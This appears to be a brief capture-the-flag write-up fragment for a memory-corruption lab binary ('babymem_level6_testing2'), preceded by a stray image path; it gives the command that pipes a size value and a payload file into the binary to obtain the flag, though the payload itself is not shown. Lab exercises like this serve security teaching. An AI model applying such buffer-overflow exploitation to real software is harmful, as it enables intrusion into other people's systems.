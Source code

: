 You can use the following command to get the flag.

```
./run.py
(echo "80"; cat payload) | /babymem_level6_testing2
```
